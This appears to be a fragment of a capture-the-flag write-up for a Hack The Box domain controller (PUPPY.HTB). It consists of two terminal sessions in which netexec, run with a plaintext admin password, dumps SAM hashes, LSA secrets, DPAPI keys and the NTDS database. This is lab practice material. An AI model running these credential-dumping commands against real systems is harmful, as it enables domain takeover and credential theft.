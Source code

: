 ```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.184.6 -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!' --sam --lsa --dpapi
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.184.6    445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)
SMB         10.129.184.6    445    DC               [*] Dumping SAM hashes
SMB         10.129.184.6    445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:9c541c389e2904b9b112f599fd6b333d:::
SMB         10.129.184.6    445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.184.6    445    DC               DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[00:41:29] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                 secretsdump.py:1435
SMB         10.129.184.6    445    DC               [+] Added 3 SAM hashes to the database
SMB         10.129.184.6    445    DC               [+] Dumping LSA secrets
SMB         10.129.184.6    445    DC               PUPPY\DC$:aes256-cts-hmac-sha1-96:f4f395e28f0933cac28e02947bc68ee11b744ee32b6452dbf795d9ec85ebda45
SMB         10.129.184.6    445    DC               PUPPY\DC$:aes128-cts-hmac-sha1-96:4d596c7c83be8cd71563307e496d8c30
SMB         10.129.184.6    445    DC               PUPPY\DC$:des-cbc-md5:54e9a11619f8b9b5
SMB         10.129.184.6    445    DC               PUPPY\DC$:plain_password_hex:84880c04e892448b6419dda6b840df09465ffda259692f44c2b3598d8f6b9bc1b0bc37b17528d18a1e10704932997674cbe6b89fd8256d5dfeaa306dc59f15c1834c9ddd333af63b249952730bf256c3afb34a9cc54320960e7b3783746ffa1a1528c77faa352a82c13d7c762c34c6f95b4bbe04f9db6164929f9df32b953f0b419fbec89e2ecb268ddcccb4324a969a1997ae3c375cc865772baa8c249589e1757c7c36a47775d2fc39e566483d0fcd48e29e6a384dc668228186a2196e48c7d1a8dbe6b52fc2e1392eb92d100c46277e1b2f43d5f2b188728a3e6e5f03582a9632da8acfc4d992899f3b64fe120e13
SMB         10.129.184.6    445    DC               PUPPY\DC$:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
SMB         10.129.184.6    445    DC               dpapi_machinekey:0xc21ea457ed3d6fd425344b3a5ca40769f14296a3
dpapi_userkey:0xcb6a80b44ae9bdd7f368fb674498d265d50e29bf
SMB         10.129.184.6    445    DC               NL$KM:dd1ba5a033e7a0561c3fc3f58631ba091ac4d46a3c2afa1526063b93e0660f7a029ac72e5279c157d90cd3f61779ef3f7588a399c7e02b2756955c6b8581d0ed
SMB         10.129.184.6    445    DC               [+] Dumped 7 LSA secrets to /home/kali/.nxc/logs/DC_10.129.184.6_2025-05-18_004053.secrets and /home/kali/.nxc/logs/DC_10.129.184.6_2025-05-18_004053.cached
SMB         10.129.184.6    445    DC               [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.184.6    445    DC               [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         10.129.184.6    445    DC               [+] Got 6 decrypted masterkeys. Looting secrets...
SMB         10.129.184.6    445    DC               [steph.cooper][CREDENTIAL] Domain:target=PUPPY.HTB - steph.cooper_adm:FivethChipOnItsWay2025!
```

```shell
┌──(kali㉿kali)-[~/Downloads]
└─$ netexec smb 10.129.184.6 -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!' --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         10.129.184.6     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.184.6     445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)
SMB         10.129.184.6     445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.184.6     445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
SMB         10.129.184.6     445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```